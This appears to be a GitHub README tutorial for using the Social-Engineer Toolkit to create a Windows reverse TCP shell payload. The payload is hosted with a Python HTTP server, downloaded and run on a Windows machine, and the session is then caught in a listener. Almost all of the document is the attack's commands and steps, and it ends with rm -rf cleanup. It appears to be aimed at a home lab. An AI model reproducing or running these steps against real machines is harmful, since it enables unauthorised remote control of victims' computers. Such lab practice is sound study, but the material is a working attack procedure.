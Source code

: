 ## Creating Payload usng Social Enginerring Toolkit

### Step 1 ( open social engineerring toolkit )

```shell

## open app ( social engineering toolkit (root) )

1 # option # Social-Engineering Attacks

4 # option # Create a Payload and Listener

1 # option # windows Shell Reverse TCP

*ip_address_kali # ip address of your computer (kali) # ifconfig # ip addr show # hostname -I

*port_number # type unused port in your computer (kali)

```

### Step 2 ( find my payload )

```shell

# open new terminal and type this

cd .set/

ls

==========
payload.exe
==========

```


### Step 3 ( Creating server )

```shell

python3 -m http.server --bind *ip_address_kali

# 1. copy link 
# 2. past it in windows machine 
# 3. download the payload.exe 

```

### Step 4 ( listening to the windows machine )

```shell

# back to the social engineering toolkit

yes # option # to start the payload listening

# stop this server that you create using python

# go the windows machine and run payload.exe

sessions -l

dir

```

### Step 5 ( problem )

```shell

# if you have problem with session ( not found session ) solution is

## 1. run the file as administrator

## 2. stop this server that you run it using python

## 3. using this command to start the listenning again

exploit -j -z

```

### Step 6 ( removing file and folder )

```shell

rmdir folder_name

rm -rf folder_name

```
